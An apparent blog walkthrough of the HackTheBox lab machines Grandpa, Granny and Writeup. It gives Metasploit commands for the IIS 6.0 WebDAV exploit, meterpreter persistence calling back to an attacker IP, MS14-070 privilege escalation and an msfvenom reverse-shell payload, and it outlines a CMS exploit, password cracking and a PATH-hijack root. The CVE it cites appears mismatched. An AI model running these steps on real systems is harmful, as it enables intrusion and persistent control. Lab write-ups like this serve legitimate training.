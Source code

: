 ```yaml
---
title: "HackTheBox - WriteUp 6"
date: 2019-06-14T14:07:30+08:00
description: "HackTheBox 练手 - Grandparents - MSF for Windows Target"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Grandpa & Granny

That really sucks. Even I use VPS in New York which result in ping response always in 20ms, it still failed to get connected from victim.

## MSF way

### Warm up

Nmap Scanned: Port 80 opened. IIS httpd 6.0 with Windows Server 2003.

### Normal User

Run these commands in `msfconsole`:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
exploit
```

Then use these commands in meterpreter to stablize it:

```bash
run persistence -X -U -A -L %TEMP% -r 10.10.14.6 -p 4455
getuid
> Permission denied
migrate 2212    # davcdata.exe
getuid
> NT AUTHORITY\NETWORK SERVICE
bg
```

In fact, finally, I migrate to `wmiprvse.exe`. And wait for a long time before privilege escalation.

### Administrator / System

> Due to the fucking network on my VPS, this step took me a lot of time. So you must ensure your network stablity is really well.

```bash
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 1
exploit
bg
sessions -i 1
getuid
> NT AUTHORITY\SYSTEM
download "C:\Documents and settings\harry\desktop\user.txt"
download "C:\Documents and settings\administrator\desktop\root.txt"
```
Privilege Escalated. Finished.

## OSCP way

### Grandpa

CVE-2017-7629: https://github.com/danigargu/explodingcan

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.16.80 LPORT=4444 >shellcode
```

Use the script from here to get a meterpreter shell. After that, Migrate the meterpreter to a stabler process. Download MS14-070 exploit from https://github.com/abatchy17/WindowsExploits. You'll have a `NT AUTHORITY/SYSTEM` shell.

### Granny

No way, totally MSF here.

TBH, I can write one using Python by analyzing the MSF exploit. But I don't think worth it.

# Writeup

Remember It's a EASY box.

This box has fail2ban mechanism, stop using automated tools, eg. SQLMAP.

## User

Use `nmap -A -O 10.10.10.138` to get the result.

You will find a `robots.txt` and a path `/writeup`.

Check the page source code, "CMS Made Simple" generated. Then `searchsploit` and choose the `46635.py`, finally, crack with `rockyou` in kali built-in wordlist.

## Root

> The quieter you are, the more you are able to hear.

Use Linenum to check the directory/files you can write. Then pay attention to PATH.

Next, run pspy64 and generate some traffic with login again.

You will find `run-parts` seems to be running in root and with a specific PATH in absolute path of the run-parts. According to the order of PATH, you just create a script, and `ln -s` to `/usr/local/bin`, then, you'll get it.

(DONE)


